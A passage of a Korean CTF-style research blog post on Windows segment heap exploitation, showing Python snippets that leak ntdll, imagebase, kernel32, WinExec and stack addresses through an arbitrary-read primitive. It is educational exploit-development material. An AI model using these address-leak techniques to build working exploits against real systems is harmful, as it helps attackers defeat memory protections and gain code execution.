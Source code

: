 ```python
LfhContext = heap_base + 0x340
print(hex(LfhContext))

AffinityModArray = readmem(LfhContext+0x32) << 16
ntdll = AffinityModArray - 0x120000
print("ntdll: "+ hex(ntdll))
```

제 경우에는 `AffinityModArray`  주소값에 `0x0a`가 포함되어 있어 중간에 출력이 짤리더라구요ㅠ 그래서 `0x0a`가 포함된 하위 2바이트를 버리고 나머지를 가져온 다음 자리수를 맞춰주어 ntdll base 주소를 구했습니다. 

![Untitled 7](segment-heap-part5/Untitled 7.png)

## imagebase/kernel32/stack

이후에는 이전 연구글 중 NT Heap을 다루는 윈도우 문제를 풀었던 것처럼 필요한 나머지 주소들을 구하면 됩니다! 구하는 방법은 아래 연구글에 설명되어 있으니 따로 설명없이 스크립트와 결과만.. 절대 익스 과정 다시 쓰기 귀찮아서 링크로 대체한거 맞음(?) 

> [[Research] Pwn하고 Cool하고 Sexy한 Windows 탐방기 Part 4 - HITCON 2019 dadadb](https://hackyboiz.github.io/2021/04/18/l0ch/pwncoolsexy-part4/#Imagebase)

링크를 참고해 나머지 주소들을 구하면 됩니다.

- 바이너리 imagebase
- kernel32 base, WinExec
- stack

```python
# leak binary imagebase
pebldr = ntdll+0x16a4c0
immol = readmem(pebldr + 0x20)
imagebase = readmem(immol+0x28) - 0x2364
print(hex(imagebase))

# leak kernel32 base, winexec address
iat = imagebase + 0x3000
readfile = readmem(iat)
kernel32 = readfile - 0x24ee0
winexec = kernel32 + 0x67200

# leak stack
peb = readmem(ntdll + 0x16a428) - 0x240
teb = peb+0x1000
stack = readmem(teb+0x11) << 8
stack_end = stack + (0x10000 - (stack & 0xffff))

print("binary imagebase: "+ hex(imagebase))
print("kernel32: "+hex(kernel32))
print("peb:" +hex(peb))
print("teb:" +hex(teb))
print("stack:"+hex(stack))
```
